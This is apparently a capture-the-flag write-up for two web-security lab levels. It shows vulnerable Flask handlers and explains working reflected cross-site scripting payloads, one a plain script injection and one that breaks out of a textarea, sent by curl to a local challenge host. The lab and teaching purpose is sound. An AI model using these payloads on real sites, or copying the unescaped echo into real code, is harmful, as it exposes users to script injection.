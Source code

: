 # Cross-Site Scripting (XSS) Vulnerabilities

## Level 8 - Exploit a cross site scripting vulnerability

Code for the level:

```python
def level8():
    if request.path == "/echo":
        echo = request.args.get("echo")
        assert echo, "Missing `echo` argument"
        return html(echo)

    if request.path == "/visit":
        url = request.args.get("url")
        assert url, "Missing `url` argument"

        url_arg_parsed = urllib.parse.urlparse(url)
        assert url_arg_parsed.hostname == challenge_host, f"Invalid `url`, hostname should be `{challenge_host}`"

        with run_browser() as browser:
            browser.get(url)
            try:
                WebDriverWait(browser, 1).until(EC.alert_is_present())
            except TimeoutException:
                return "Failed to alert\n"
            else:
                return f"{flag}\n"

    return "Not Found\n", 404
```



For this, the `/visit` path will run a browser in Selenium and redirect to the `url` parameter. If it gets an alert, it will display the flag.

To display an alert, we can use the `/echo` endpoint. I want it to display an alert, so I want to inject the `echo` arg as `<script>alert('XSS')</script>`. URL encoded, that is, `%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E`.

This gives a URL of `http://challenge.localhost/echo?echo=%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E`. Pasting this into the browser alerts, so we are on the right track.

I use this to build the `/visit` url and paste `http://challenge.localhost/visit?url=%20http%3A%2F%2Fchallenge.localhost%2Fecho%3Fecho%3D%253Cscript%253Ealert%2528%2527XSS%2527%2529%253C%252Fscript%253E` into the brower URL.

This worked, but I'd over-escaped the url. It can be simplified as `http://challenge.localhost/visit?url=http://challenge.localhost/echo?echo=%3Cscript%3Ealert(%27XSS%27)%3C%2Fscript%3E` which is more readable.

While I used the browser because it was easier to test the alert, it also works with curl,

```sh
curl "http://challenge.localhost/visit?url=http://challenge.localhost/echo?echo=%3Cscript%3Ealert(%27XSS%27)%3C%2Fscript%3E"
```

## Level 9 - Exploit a cross site scripting vulnerability with more complicated context

Code for this level,

```python
def level9():
    if request.path == "/echo":
        echo = request.args.get("echo")
        assert echo, "Missing `echo` argument"
        return html(f"<textarea>{echo}</textarea>")

    if request.path == "/visit":
        url = request.args.get("url")
        assert url, "Missing `url` argument"

        url_arg_parsed = urllib.parse.urlparse(url)
        assert url_arg_parsed.hostname == challenge_host, f"Invalid `url`, hostname should be `{challenge_host}`"

        with run_browser() as browser:
            browser.get(url)
            try:
                WebDriverWait(browser, 1).until(EC.alert_is_present())
            except TimeoutException:
                return "Failed to alert\n"
            else:
                return f"{flag}\n"

    return "Not Found\n", 404
```

The difference here is that the value that is echo'd is contained within a `<textarea>`, so the script won't be run. Unless of course we complete the `</textarea>`. I will send `</textarea><script>alert('XSS')</script><textarea>` to the echo, which encoded is, `%3C%2Ftextarea%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E%3Ctextarea%3E`.

```sh
curl "http://challenge.localhost/visit?url=http://challenge.localhost/echo?echo=%3C%2Ftextarea%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E%3Ctextarea%3E"
```
